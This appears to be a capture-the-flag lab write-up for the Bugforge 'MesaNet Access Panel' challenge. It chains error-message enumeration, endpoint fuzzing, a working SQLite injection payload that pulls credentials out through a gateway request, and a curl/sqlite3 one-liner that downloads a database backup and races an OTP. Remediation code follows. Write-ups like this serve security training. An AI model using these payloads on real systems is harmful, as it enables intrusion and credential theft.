

[← Back](./)

# Bugforge - MesaNet Access Panel Lab Writeup

<div class="meta">
  <span><strong>Date:</strong> 2026-02-13</span>
  <span><strong>Difficulty:</strong> Hard</span>
  <span><strong>Platform:</strong> Bugforge</span>
</div>

---

## Executive Summary

**Overall Risk Rating:** 🔴 Critical

**Key Findings:**
- 1 Critical SQL injection in hidden Rail application endpoint (CWE-89)
- 1 High information disclosure via error message differentiation (CWE-200)
- 1 High insecure credential storage in plaintext config table (CWE-522)
- 1 High sensitive data exposure via database backup feature (CWE-312)
- 1 Medium weak OTP storage in queryable database (CWE-798)

**Business Impact:** Chained exploitation of error message differentiation, SQL injection, credential disclosure, and database backup exfiltration allows attackers to extract live OTP values and gain access to the Dev Console, resulting in complete application compromise.

---

## Objective

Gain access to the Dev Console and retrieve the flag.

## Initial Access

```bash
# Target Application
URL: https://lab-XXXXX.labs-app.bugforge.io

# Auth: Express session cookie (operator role)
Cookie: connect.sid=s%3A<session>.<signature>
```

## Key Findings

### Critical & High-Risk Vulnerabilities

1. **Information Disclosure** - Error message differentiation in API gateway reveals hidden "Rail" application (CWE-200)
2. **SQL Injection** - `/api/rail/create` endpoint `type` parameter, SQLite concatenation (CWE-89)
3. **Insecure Secret Storage** - DB admin credentials stored in plaintext in config table (CWE-522)
4. **Sensitive Data in Backup** - Database backup feature exposes live OTP values (CWE-312)
5. **Weak OTP Storage** - Rotating OTP stored in queryable database rather than memory (CWE-798)

**CVSS v3.1 Score for SQLi Chain:** **9.8 (Critical)**

| Metric | Value |
|--------|-------|
| Attack Vector | Network (AV:N) |
| Attack Complexity | Low (AC:L) |
| Privileges Required | Low (PR:L) |
| User Interaction | None (UI:N) |
| Scope | Changed (S:C) |
| Confidentiality | High (C:H) |
| Integrity | High (I:H) |
| Availability | None (A:N) |

## Enumeration Summary

### Application Architecture

Half-Life themed internal portal "MesaNet Access Panel" with multiple sub-applications routed through a central API gateway:

| Component | Path | Description |
|-----------|------|-------------|
| Dashboard | `/` | User info: operator, Clearance L3, userId 1 |
| Research Nexus | `/apps/nexus` | Notes with classification levels (public, restricted, confidential) |
| Secure Mail | `/apps/mail` | Internal messaging, max restricted classification |
| Dev Console | `/dev` | OTP-protected, rotates every 60 seconds |
| DB Admin | `/db` | Separate login, rate-limited (10 attempts/60s lockout) |

**API Gateway** at `POST /gateway` accepting:

```json
{"id": "<APP_ID>", "endpoint": "/api/...", "data": {...}}
```

Known APP_IDs:
- Nexus: `a7f3c4e9-8b2d-4a6f-9c1e-5d8a3b7f2c4e`
- Mail: `b3e8d1f6-4c9a-4b2e-8f7d-6a1c9b3e5f8d`

## Attack Chain Visualization

```
┌─────────────────────┐     ┌──────────────────┐     ┌─────────────────────┐
│   Error Message     │────▶│   Fuzz Endpoints │────▶│   SQLi in           │
│   Differentiation   │     │   /api/rail/*    │     │   /api/rail/create  │
│   Hidden Rail App   │     │   via common.txt │     │   type parameter    │
└─────────────────────┘     └──────────────────┘     └─────────────────────┘
                                                                │
                                                                ▼
┌─────────────────────┐     ┌──────────────────┐     ┌─────────────────────┐
│   Flag from         │◀────│   Extract Live   │◀────│   Login to DB Admin │
│   Dev Console       │     │   OTP from Backup│     │   Download portalDb │
│   bug{...}          │     │   Race 60s timer │     │   dbadmin creds     │
└─────────────────────┘     └──────────────────┘     └─────────────────────┘
```

**Attack Path Summary:**
1. **Error Differentiation:** Discover hidden Rail application via distinct gateway error messages
2. **Endpoint Fuzzing:** Fuzz `/api/rail/*` with common.txt to find `create` and other endpoints
3. **SQL Injection:** Exploit `type` parameter in `/api/rail/create` using SQLite `||` concatenation
4. **Credential Extraction:** Exfiltrate DB admin credentials from config table via SQLi
5. **DB Admin Access:** Login to `/db` panel with extracted credentials
6. **Database Name Fuzzing:** Fuzz `POST /db/backup` to discover `portalDb` and `railDb`
7. **Backup Download:** Download full portalDb SQLite file containing live OTP
8. **OTP Race:** Extract OTP from backup and submit within 60-second window
9. **Flag:** Access Dev Console with valid OTP

---

## Exploitation Path

### Step 1a: Discover Hidden Rail APP_ID

Tested the gateway with various UUIDs and discovered **three distinct error states**:

| Input | Response | Meaning |
|-------|----------|---------|
| Random UUID | `Unknown application ID` | Not registered in gateway |
| Valid APP_ID + bad endpoint | `Endpoint not found` | Valid app, route doesn't exist |
| `00000000-0000-0000-0000-000000000000` | `Rail endpoint not found` | Valid **Rail-type** app, different router |

The all-zeros UUID revealed a hidden third application with a distinct "Rail" routing system.

### Step 1b: Fuzz Rail Endpoints

With the Rail APP_ID confirmed:

1. **Guessed base path** `/api/rail/` from the "Rail" error message naming
2. **Fuzzed with Burp Intruder** using `common.txt` against `/api/rail/<FUZZ>`
3. **Discovered** `/api/rail/create` (and other endpoints)
4. The create endpoint accepted fields: `type`, `message`, `priority`, `timestamp`
5. Created "announcements" and **reflected the `type` field** back in the response

### Step 2: SQL Injection in `/api/rail/create`

The `type` parameter was vulnerable to SQLite injection using the string concatenation operator `||`. Unlike the Nexus and Mail apps which used parameterized queries, the Rail app did not.

```http
POST /gateway HTTP/2
Host: lab-XXXXX.labs-app.bugforge.io
Content-Type: application/json
Cookie: connect.sid=<session>

{
  "id": "00000000-0000-0000-0000-000000000000",
  "endpoint": "/api/rail/create",
  "data": {
    "type": "x'||(select key||':'||value from config limit 1 offset 0)||'",
    "message": "x",
    "priority": "high",
    "timestamp": "04:00:00"
  }
}
```

Exfiltrated data appeared inline in the `type` field:

```json
{"announcement":{"id":22,"type":"xdb_username:dbadmin",...}}
```

### Step 3: Extract DB Admin Credentials

Enumerated the `config` table by incrementing the offset:

| Offset | Key | Value |
|--------|-----|-------|
| 0 | `db_username` | `dbadmin` |
| 1 | `db_password` | `Xen_Lambda_R4ilSyst3m_2024!Cr0ss1ng` |

This password would **never appear in any standard wordlist** - SQLi was the only extraction path.

### Step 4: Login to DB Admin Panel & Fuzz Database Names

Authenticated to `/db/login` with extracted credentials. The DB Admin Console featured a **Database Backup & Export** tool.

The input field had a placeholder hint `*Db` and submitting an invalid name returned:

```
Error: Invalid database name. Must be <name>Db
```

This confirmed the naming convention: `<name>Db`. Used **Burp Intruder** to fuzz the `database` parameter in `POST /db/backup`:

**Intruder Setup:**
- **Target**: `POST /db/backup` with `{"database":"<FUZZ>Db"}`
- **Payload**: Common application words (portal, rail, user, admin, main, app, config, session, auth, system, etc.)
- **Differentiation**: Successful backups returned `200` with binary SQLite data; failures returned `400` with `"error":"Invalid database name. Must be <name>Db"`

**Databases discovered:**

| Database Name | Contents |
|---------------|----------|
| `portalDb` | Users table (10 users, bcrypt hashes, clearance, entitlements), Config table (dev_otp, db credentials) |
| `railDb` | Rail announcements table (created via the SQLi endpoint) |

### Step 5: Download Database Backup

Downloaded via `POST /db/backup` with `{"database":"portalDb"}`

The `portalDb` SQLite file contained:
- **`users` table**: All 10 users with bcrypt hashes, clearance levels, and full entitlements JSON
- **`config` table**: `dev_otp` key with the **current live OTP value**

### Step 6: Race the OTP

The OTP rotates every 60 seconds. One-liner to download backup and extract the live OTP:

```bash
curl -sk -X POST "$BASE/db/backup" \
  -H "Content-Type: application/json" -H "Cookie: $COOKIE" \
  -d '{"database":"portalDb"}' -o /tmp/portal.sqlite \
  && sqlite3 /tmp/portal.sqlite "SELECT value FROM config WHERE key='dev_otp';"
```

Grabbed the fresh OTP and submitted to `/dev/verify` within the 60-second window.

### Step 7: Flag

Dev Console access revealed the flag.



---

## Flag / Objective Achieved

✅ **Objective:** Gained Dev Console access via chained SQLi → DB creds → backup download → OTP extraction

✅ **Flag:** `bug{NDuMMuIcBVL3AdE0KxLK7ZAdQnfKmrld}`

---

## Key Learnings

### Error Message Differentiation
- Different error messages for different application types revealed hidden functionality
- Always test edge-case UUIDs (all-zeros, all-ones, nil UUID) against ID-based routing
- Three distinct errors = three distinct code paths = deeper architecture insight

### Inconsistent Security Posture
- Main application endpoints (Nexus, Mail) were properly parameterized
- Hidden/internal endpoints (Rail) lacked the same protections
- **Lesson**: Hidden functionality often has weaker security than public-facing features

### SQLite Concatenation Injection

| Technique | Use Case | Syntax |
|-----------|----------|--------|
| `&#124;&#124;` concatenation | Inline data exfiltration | `value'&#124;&#124;(SELECT data FROM table)&#124;&#124;'` |
| `LIMIT/OFFSET` | Enumerate rows | `LIMIT 1 OFFSET n` |

- SQLite `||` operator enables inline data exfiltration without UNION
- Payload pattern: `value'||(SELECT data FROM table)||'`
- Data appears embedded in the response field, no need for error-based or blind techniques

### Database Backup as Attack Vector
- Backup features that download full database files are extremely high-value targets
- Live secrets (OTP, credentials) in the database mean backup = full compromise
- Time-based OTP is only as secure as its storage mechanism

---

## Failed Approaches

### Approach 1: Brute Force Login

```
Attempted brute force against /db/login
```

**Result:** ❌ Failed - Non-standard password (`Xen_Lambda_R4ilSyst3m_2024!Cr0ss1ng`) not in any wordlist, rate-limited to 10 attempts per 60 seconds

### Approach 2: Express Session Secret Cracking

```python
# HMAC-SHA256 brute force against cookie-signature
# Tried 14M+ secret candidates
```

**Result:** ❌ Failed - Secret not in any standard wordlist after 14+ million attempts

### Approach 3: SQLi on Nexus/Mail Endpoints

```http
POST /gateway
{"id":"<nexus-appid>","endpoint":"/api/nexus/notes","data":{"title":"' OR 1=1--",...}}
```

**Result:** ❌ Failed - Properly parameterized queries on main application endpoints

### Approach 4: Mail IDOR

**Result:** ❌ Failed - Server-side ownership check prevents accessing other users' mail

### Approach 5: Classification Bypass on Notes

**Result:** ❌ Failed - Server-side enforcement, extra fields ignored

### Approach 6: Prototype Pollution in Gateway

**Result:** ❌ Failed - Gateway not vulnerable to `__proto__` injection

### Approach 7: Path Traversal via Endpoint

**Result:** ❌ Failed - Routing didn't resolve traversal patterns

### Approach 8: Cross-APP_ID Endpoint Access

**Result:** ❌ Failed - Endpoints scoped per-app, no cross-app access

### Approach 9: HTTP Verb Tampering

**Result:** ❌ Failed - Gateway only accepts POST

---

## Tools Used

| Tool | Purpose | Usage |
|------|---------|-------|
| **Burp Suite** | Request interception, endpoint fuzzing | Intruder with common.txt against `/api/rail/<FUZZ>` and DB name fuzzing |
| **curl** | Gateway requests, backup download | POST to /gateway, /db/backup |
| **sqlite3** | Database analysis | Extract OTP and user data from backup files |
| **Python (custom)** | Express session secret cracking | HMAC-SHA256 brute force (unsuccessful but documented) |

---

## Remediation

### 1. SQL Injection in Rail Create Endpoint (CVSS: 9.8 - Critical)

**Issue:** The `type` parameter in `/api/rail/create` is concatenated directly into SQL queries.

**CWE Reference:** CWE-89 - Improper Neutralization of Special Elements used in an SQL Command

**Fix:**

```javascript
// BEFORE (Vulnerable)
const query = `INSERT INTO announcements (type) VALUES ('${data.type}')`;

// AFTER (Secure)
const query = `INSERT INTO announcements (type) VALUES (?)`;
db.run(query, [data.type]);
```

### 2. Plaintext Credentials in Config Table (CVSS: 7.5 - High)

**Issue:** DB admin username and password stored in plaintext in the config table.

**CWE Reference:** CWE-522 - Insufficiently Protected Credentials

**Fix:**

```javascript
// Store secrets in environment variables, not database
const DB_USER = process.env.DB_ADMIN_USER;
const DB_PASS = process.env.DB_ADMIN_PASS;

// Or use a secrets manager (AWS Secrets Manager, HashiCorp Vault)
```

### 3. OTP Stored in Database (CVSS: 7.5 - High)

**Issue:** Live OTP values stored in queryable database, accessible via backup.

**CWE Reference:** CWE-798 - Use of Hard-Coded Credentials

**Fix:**

```javascript
// Store OTP in memory-only (e.g., Redis with no persistence)
const redis = require('redis');
const client = redis.createClient();

// Set OTP with 60s expiry in memory-only store
await client.set('dev_otp', generateOTP(), { EX: 60 });

// Or use TOTP with a shared secret (no server-side OTP storage needed)
```

### 4. Unrestricted Database Backup (CVSS: 8.0 - High)

**Issue:** Backup feature downloads complete database files including secrets.

**CWE Reference:** CWE-312 - Cleartext Storage of Sensitive Information

**Fix:**

```javascript
// Exclude sensitive tables from backups
const EXCLUDED_TABLES = ['config'];

// Or require MFA for backup operations
app.post('/db/backup', requireMFA, async (req, res) => { ... });
```

---

## OWASP Top 10 Coverage

- **A01:2021** - Broken Access Control (hidden endpoint accessible, backup exposes secrets)
- **A02:2021** - Cryptographic Failures (plaintext credential storage, OTP in database)
- **A03:2021** - Injection (SQL injection via SQLite concatenation)
- **A04:2021** - Insecure Design (error messages reveal architecture, backup includes live secrets)
- **A05:2021** - Security Misconfiguration (inconsistent parameterization across endpoints)

---

## References

**SQLi Resources:**
- [OWASP - SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQLite String Concatenation](https://www.sqlite.org/lang_expr.html)
- [HackTricks - SQLite Injection](https://book.hacktricks.wiki/en/pentesting-web/sql-injection/index.html)

**Express Security:**
- [Express cookie-signature](https://github.com/tj/node-cookie-signature)

---

**Tags:** `#sqli` `#sqlite` `#info-disclosure` `#error-differentiation` `#endpoint-fuzzing` `#otp-bypass` `#bugforge`
